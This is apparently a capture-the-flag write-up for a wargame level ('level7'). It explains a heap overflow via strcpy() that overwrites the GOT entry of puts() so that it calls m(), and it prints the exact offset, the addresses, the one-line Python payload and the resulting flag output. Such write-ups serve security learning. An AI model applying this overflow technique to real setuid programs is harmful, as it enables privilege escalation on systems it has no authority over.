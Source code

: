 ```sh
$> ls -l ~
-rwsr-s---+ 1 level8 users 5648 Mar  9  2016 level7
```

We have 2 `strcpy()` calls on 2 malloc'ed buffers.  

The principle behind this attack is to overflow the first one and change its return address, not to the contiguous second buffer anymore, but to `puts()`'s address.  
Then we change `puts()` itself to a call to `m()`.
This last point is what is called a GOT overwrite attack. We already used it in previous levels.

To do that, we calculated the offset to the return of the first buffer which is `20` bytes.
At this point, we needed two more things:
- The address of `puts()` => `0x08049928`
- The address of `m()` => `0x080484f4`


We then applied the payload:

```sh
$> ./level7 $(python -c 'print("A"*20 + "\x28\x99\x04\x08")') $(python -c 'print("\xf4\x84\x04\x08")')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1657740285
```
